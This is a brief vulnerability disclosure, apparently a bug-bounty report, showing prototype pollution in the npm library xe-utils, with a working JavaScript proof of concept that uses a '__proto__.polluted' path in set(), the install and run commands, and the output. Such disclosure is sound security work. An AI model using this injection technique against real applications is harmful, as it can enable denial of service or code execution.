 # Description

`xe-utils` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { set } = require('xe-utils')
console.log('Before: ', {}.polluted)
set({}, '__proto__.polluted', true)
console.log('After: ', {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i xe-utils # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
